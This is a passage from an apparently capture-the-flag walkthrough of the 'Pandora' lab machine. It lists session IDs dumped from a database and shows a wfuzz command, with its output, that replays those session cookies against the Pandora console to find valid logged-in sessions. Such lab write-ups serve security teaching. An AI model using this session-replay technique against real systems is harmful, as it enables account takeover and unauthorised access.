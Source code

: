 ```
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                            | 1638783555  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                            | 1638540332  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                            | 1638535373  |       
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                            | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                            | 1641195617  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                            | 1638446321  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                            | 1638881787  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                            | 1638881664  |       
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                            | 1641200284  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                            | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |       
| hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                            | 1638168492  |  
| j6cbj3ng5243q6ikad06ad65bp | id_usuario|s:6:"daniel";                            | 1652903458  |  
| jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                            | 1638456173  |       
| o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                            | 1638540482  |       
| oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                            | 1637667827  |       
| pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                            | 1638168416  |
| rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                            | 1638889082  |
| u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                            | 1638547193  |       
| u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                            | 1638793297  |       
+----------------------------+-----------------------------------------------------+-------------+

```

There are a few hundred rows that have session ids but no user associated with them, which is why I ignore those with the `--where`.

I don’t totally understand why daniel has so many sessions, but there’s also one for matt.

#### Fuzz Sessions

To quickly test these sessions, I’ll drop all 20 into a file, and run `wfuzz`:

```

oxdf@hacky$ wfuzz -u http://pandora.panda.htb:9001/pandora_console/ -b PHPSESSID=FUZZ -w sessions 
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://pandora.panda.htb:9001/pandora_console/
Total requests: 20

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000002:   200        247 L    665 W    14153 Ch    "346uqacafar8pipuppubqet7ut"
000000004:   200        247 L    665 W    14153 Ch    "5i352tsdh7vlohth30ve4o0air"
000000009:   200        247 L    665 W    14153 Ch    "f0qisbrojp785v1dmm8cu1vkaj"
000000003:   200        247 L    665 W    14153 Ch    "4nsbidcmgfoh1gilpv8p5hpi2s"
000000007:   200        247 L    665 W    14153 Ch    "9vv4godmdam3vsq8pu78b52em9"
000000008:   200        247 L    665 W    14153 Ch    "agfdiriggbt86ep71uvm1jbo3f"
000000010:   200        247 L    665 W    14153 Ch    "g0kteepqaj1oep6u7msp0u38kv"
000000005:   200        247 L    665 W    14153 Ch    "69gbnjrc2q42e8aqahb1l2s68n"
```